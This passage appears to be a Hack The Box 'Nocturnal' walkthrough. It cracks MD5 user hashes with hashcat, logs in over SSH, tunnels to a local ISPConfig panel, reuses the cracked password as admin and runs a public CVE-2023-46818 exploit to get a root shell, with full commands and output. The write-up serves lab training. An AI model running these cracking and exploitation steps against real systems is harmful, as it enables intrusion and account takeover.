sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
I see that is a MD5. I will use hashcat to try to crack it:
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ hashcat -m 0 tobias_hash.txt /usr/share/wordlists/rockyou.txt.gz -w 3 -S
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 9 9900X 12-Core Processor, 11465/22995 MB (4096 MB allocatable), 12MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.
Watchdog: Temperature abort trigger set to 90c
Host memory required for this attack: 15 MB
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344387
* Bytes.....: 53357705
* Keyspace..: 14344387
55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 55c82b1ccd55ab219b3b109b07d5061d
Time.Started.....: Mon Apr 28 00:16:21 2025 (1 sec)
Time.Estimated...: Mon Apr 28 00:16:22 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 3720.1 kH/s (0.27ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3698688/14344387 (25.78%)
Rejected.........: 0/3698688 (0.00%)
Restore.Point....: 3686400/14344387 (25.70%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Host Generator + PCIe
Candidates.#1....: smartpizza -> slides8675
We got it: slowmotionapocalypse
I try to ssh in:
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ ssh tobias@nocturnal.htb
The authenticity of host 'nocturnal.htb (10.10.11.64)' can't be established.
ED25519 key fingerprint is SHA256:rpVMGW27qcXKI/SxVXhvpF6Qi8BorsH7RNh1jzi8VYc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nocturnal.htb' (ED25519) to the list of known hosts.
tobias@nocturnal.htb's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-212-generic x86_64)
And we are in! Time to connect the user flag!
Privilege escalation
Tobias doesn't have any sudo permissions:
tobias@nocturnal:~$ sudo -l
[sudo] password for tobias:
Sorry, user tobias may not run sudo on nocturnal.
Also, I don't see any interesting binaries with SUID permissions. I looked it up on https://gtfobins.github.io
tobias@nocturnal:~$ find / -perm /u=s,g=s 2>/dev/null
/run/sendmail
/run/sendmail/stampdir
/run/sendmail/msp
/run/sendmail/mta
/run/log/journal
/var/log/journal
/var/log/journal/58aeadfa5c4341028efdfcf816fc9d31
/var/mail
/var/local
/var/spool/mqueue
/var/spool/mqueue-client
/var/lib/sendmail
/usr/sbin/unix_chkpwd
/usr/sbin/pam_extrausers_chkpwd
/usr/bin/expiry
/usr/bin/passwd
/usr/bin/mail-unlock
/usr/bin/mount
/usr/bin/ssh-agent
/usr/bin/chfn
/usr/bin/bsd-write
/usr/bin/su
/usr/bin/chsh
/usr/bin/chage
/usr/bin/newgrp
/usr/bin/mail-touchlock
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/fusermount
/usr/bin/crontab
/usr/bin/sudo
/usr/bin/umount
/usr/bin/dotlockfile
/usr/bin/mail-lock
/usr/local/share/fonts
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/sm.bin/sendmail
/usr/lib/sm.bin/mailstats
/usr/lib/x86_64-linux-gnu/utempter/utempter
/usr/lib/openssh/ssh-keysign
/etc/mail
/etc/mail/smrsh
/etc/mail/m4
Looking at the current listening ports I see that there is a service running under the port 8080 on localhost.
tobias@nocturnal:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:25 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:33060 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:587 0.0.0.0:* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
udp 0 0 127.0.0.53:53 0.0.0.0:* -
The service is a php application running on root user:
tobias@nocturnal:~$ ps -aux | grep 8080
root 828 0.0 0.8 287048 36100 ? Ss 10:19 0:16 /usr/bin/php -S 127.0.0.1:8080
If I can do a reverse shell or run a command on the page it will be on the root user, escalating privileges. I map the ports running only on localhost with a python script.
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ python3 generate_tunnels.py tobias@nocturnal.htb netstat.txt
🔗 SSH Command:
ssh -N -L 25:localhost:25 -L 587:localhost:587 -L 3306:localhost:3306 -L 8080:localhost:8080 -L 33060:localhost:33060 tobias@nocturnal.htb
tobias@nocturnal.htb's password:
The page is ispconfig, a hosting control panel

Tried the default password, but no luck...
Returning to the tobias user, I search on the server for any clue regarding ispconfig. Seems that the web is either on the /var/www/ispconfig or /var/www/php-fcgi-scripts/ispconfig directories.
tobias@nocturnal:~$ find / -iname ispconfig 2>/dev/null
/var/www/ispconfig
/var/www/php-fcgi-scripts/ispconfig
/var/log/ispconfig
/usr/local/ispconfig
tobias@nocturnal:~$ ls -la /var/www/ispconfig
lrwxrwxrwx 1 root root 34 Oct 17 2024 /var/www/ispconfig -> /usr/local/ispconfig/interface/web
tobias@nocturnal:~$ ls -la /usr/local/ispconfig/interface/web
ls: cannot access '/usr/local/ispconfig/interface/web': Permission denied
tobias@nocturnal:~$ ls -la /var/www/php-fcgi-scripts/ispconfig
total 12
drwxr-xr-x 2 ispconfig ispconfig 4096 Oct 17 2024 .
drwxr-xr-x 4 ispconfig ispconfig 4096 Oct 17 2024 ..
-rwxr-xr-x 1 ispconfig ispconfig 300 Oct 17 2024 .php-fcgi-starter
tobias@nocturnal:~$ cat /var/www/php-fcgi-scripts/ispconfig/.php-fcgi-starter
#!/bin/sh
PHPRC=/etc/php/7.4/cgi/
export PHPRC
export PHP_FCGI_MAX_REQUESTS=5000
export PHP_FCGI_CHILDREN=1
exec /usr/bin/php-cgi \
-d disable_classes= \
-d disable_functions= \
-d magic_quotes_gpc=off \
-d open_basedir= \
-d session.save_path=/usr/local/ispconfig/interface/temp
By looking at the files we got the php version: 7.4 This version is a little outdated, it has a bunch of vulnerabilities, but I don't see any one working that could help to escalate privileges.
-
- https://www.cvedetails.com/version/612234/PHP-PHP-7.4.0.html
On the log file I see that a whole bunch of people is logging in with the user admin, with different session IDs.
tobias@nocturnal:~$ cat /var/log/ispconfig/auth.log
Successful login for user 'admin' from 127.0.0.1 at 2025-04-09 10:19:13 with session ID vo10b400dv579klascjkkf1568
Successful login for user 'admin' from 127.0.0.1 at 2025-04-09 10:54:48 with session ID k6cfshre0jfnp81hetdrc1c67a
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 10:54:34 with session ID 26fdi4le7scrcsmu2vkgsq71qu
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 10:57:51 with session ID 0peae24osu89ss2ir272eqkf3h
Failed login for user 'tobias' from 127.0.0.1 at 2025-04-28 11:17:45
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 11:20:48 with session ID v917o881kl8q00cheei5djol8b
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 11:25:13 with session ID ku2s509df9g0tq5clfpi5aaqlp
Failed login for user 'admin' from 127.0.0.1 at 2025-04-28 12:08:53
Failed login for user 'tobias' from 127.0.0.1 at 2025-04-28 12:09:06
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 12:09:13 with session ID 0delem2im7gtfua7h9kjgkp36m
Successful login for user 'admin_db' from 127.0.0.1 at 2025-04-28 12:18:32 with session ID pq4gh6ccnbv1lcmpku19jderei
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 12:19:04 with session ID rjini36se7um4gdo1q5sp2bihr
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 12:20:01 with session ID fb1jahusaikn8ifb7hnrmrkg2l
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 12:23:03 with session ID 0ju2oe18t4qfdjv01k3872ojqa
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 12:23:42 with session ID kltgiatfc3647vluglvi2cd2g9
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 13:51:55 with session ID 37lnj5cvu0qfkqo92l36iilrat
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 13:57:54 with session ID im3iguhq6e63a44q6g6vtab2ea
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 14:02:12 with session ID j0pcun9l3fc0shvkgntaqosbsu
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 14:05:01 with session ID ck0qba03s3rn0ohm1jjft2nfbj
Successful login for user 'admin' from 127.0.0.1 at 2025-04-28 14:08:25 with session ID kt2s2fbdu4imqa7oc2v44kjn3c
Failed login for user 'admin' from 127.0.0.1 at 2025-04-28 18:52:21
Failed login for user 'admin' from 127.0.0.1 at 2025-04-28 18:52:27
Failed login for user 'admin' from 127.0.0.1 at 2025-04-28 18:52:30
Maybe the admin hash on the nocturnal database works for this too?
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ hashcat -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt.gz -w 3 -S -O
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 9 9900X 12-Core Processor, 11465/22995 MB (4096 MB allocatable), 12MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Meet-In-The-Middle
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
Watchdog: Temperature abort trigger set to 90c
Host memory required for this attack: 15 MB
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344387
* Bytes.....: 53357705
* Keyspace..: 14344387
Approaching final keyspace - workload adjusted.
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: d725aeba143f575736b07e045d8ceebb
Time.Started.....: Mon Apr 28 21:47:12 2025 (4 secs)
Time.Estimated...: Mon Apr 28 21:47:16 2025 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 3702.8 kH/s (0.35ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344387/14344387 (100.00%)
Rejected.........: 0/14344387 (0.00%)
Restore.Point....: 14344387/14344387 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Host Generator + PCIe
Candidates.#1....: $HEX[2163617272696521] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 23%
It's not on the rockyou wordlist... Maybe the user admin and tobias's password?

It works! (I need to start writing down all users and passwords on files to do password spraying)
After some searching I see the most important thing the version:

I see this CVE that could be of use:
-
https://nvd.nist.gov/vuln/detail/CVE-2023-46818
I will use this POC code:
-
https://github.com/bipbopbup/CVE-2023-46818-python-exploit
I clone it and execute it:
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ git clone https://github.com/bipbopbup/CVE-2023-46818-python-exploit.git
Cloning into 'CVE-2023-46818-python-exploit'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 12 (delta 2), reused 1 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (12/12), 5.70 KiB | 5.70 MiB/s, done.
Resolving deltas: 100% (2/2), done.
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ cd CVE-2023-46818-python-exploit
┌──(oriol㉿zero)-[~/htb/nocturnal/CVE-2023-46818-python-exploit]
└─$ python3 exploit.py http://localhost:8080/ admin slowmotionapocalypse
[+] Target URL: http://localhost:8080/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell
ispconfig-shell# whoami
root
ispconfig-shell#
And it works!
Looking at the github description it shows the details of the vulnerability: User input passed through the "records" POST parameter to /admin/language_edit.php is not properly sanitized before being used to dynamically generate PHP code that will be executed by the application. This can be exploited by malicious administrator users to inject and execute arbitrary PHP code on the web server.